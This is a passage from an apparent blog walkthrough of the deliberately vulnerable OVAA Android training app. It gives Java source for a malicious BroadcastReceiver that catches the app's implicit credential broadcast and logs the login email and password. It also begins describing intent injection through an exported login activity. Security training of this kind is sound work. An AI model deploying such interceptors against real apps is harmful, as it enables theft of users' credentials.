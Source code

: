 And here comes our **Evil Receiver**. We declared the action from the oversecured APK that was loaded inside the **broadcast intent** and receive the **Serialized** data by **getSerializable()** of the `payload` extras. To make it simple, we’ll pass it to a Logger.

```
package com.evil.oversecuredbroadcast;import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.util.Log;import java.io.Serializable;public class EvilReceiver extends BroadcastReceiver {@Override
    public void onReceive(Context context, Intent intent) {
        // TODO: This method is called when the BroadcastReceiver is receiving
        // an Intent broadcast.
        if(intent != null) {
            if("oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA".equals(intent.getAction())){
                Log.d("evilreceiver","" + intent.getExtras().getSerializable("payload"));
            }
            else{
                Log.d("evilreceiver","Not yet intercepted");
            }
        }else{
            Log.d("evilreceiver","No intent");
        }
        throw new UnsupportedOperationException("Not yet implemented");
    }
}
```

Finally, we spawn the OVAA application and the malicious apps, login to OVAA and clicking the second button to send the broadcast in order for our malicious apps to receive it. Altough our app’s getting crashed (I don’t know why about this but perhaps you knew, feel free to comment!),yet the login data is **revealed** inside the logs using `adb logcat` containing the email and password.

![](https://miro.medium.com/max/1400/1*5qoMQtqflMPjUCHVz_jTvw.png)

So for this case, we should **never use implicit intent** for sending **broadcast.** We need to use an **explicit broadcast** and also use a **signature permission level**.

The next vulnerability is more interesting, let’s have a look at the **Android Manifest** again and this time, we’ll focus on the Login Activity.

![](https://miro.medium.com/max/1262/1*x4E3jrd5Zpd1U1-atN88Kg.png)

This activity is **exported** by default because of the **intent-filter** occurrence. If we see the source code,

![](https://miro.medium.com/max/1400/1*7HuOdFpomnqLSycafyvdQA.png)

![](https://miro.medium.com/max/1400/1*HCT1oViruFsN8MQcYWgPGQ.png)

After we are prompted to login, there’s actually a checker whether there’s an **Intent** passed with an extra `redirect_intent` or not. This is also very dangerous because we can **inject a malicious intent** to **gain access to protected components**, for example a protected Activity.
